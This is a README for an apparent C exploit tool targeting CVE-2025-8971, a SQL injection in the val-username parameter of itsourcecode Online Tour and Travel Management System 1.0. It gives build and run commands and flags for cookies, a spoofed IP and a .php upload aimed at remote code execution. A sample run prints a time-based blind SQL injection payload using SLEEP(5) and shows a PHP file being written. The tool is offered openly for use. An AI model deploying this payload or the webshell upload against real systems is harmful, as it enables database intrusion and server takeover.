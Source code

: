 # CVE-2025-8971 (SQL Injection)

**Author: Byte Reaper**

## Description :
This exploit   for CVE-2025-8971, a SQL injection vulnerability in itsourcecode Online Tour and Travel Management System 1.0.
The vulnerability exists in /admin/operations/travellers.php and can be exploited remotely via the val-username parameter.

How It Works

The exploit sends crafted HTTP POST requests to the target URL.

Payloads are encoded and injected into val-username.

Optional file upload (.php or image) can be used to achieve remote code execution.

The script verifies responses to check if the payload was successfully executed.

## Requirements : 
```
GCC compiler (gcc)

Linux x86_64 

ibcurl 
```


## Compilation : 
```
    gcc script.c argparse.c -o CVE-2025-8971 -lcurl
    ./CVE-2025-8971 -u http://<target> -v [verbose mode]
```

## Usage:
```
    -h, --help            help message 
    -u, --url             Target Url (BASE URL)
    -c, --cookies         File cookies
    -i, --ip              Fake Ip (Host request)
    -f, --file            File upload (.php / image)
    -v, --verbose         Verbose Mode
```
## Example Run : 
```
[+] Start encode Payload in Request (username=)
[+] Encode Payload : AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))bAKL)%20AND%20'b'='b'
[+] Original Payload (Not encode) : AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'b'='b'
[+] POST Request Sent
[+] FULL URL : http://127.0.0.1/code/admin/operations/travellers.php
[+] File Upload : test.php
[+] File written successfully
....
```

## License :

MIT License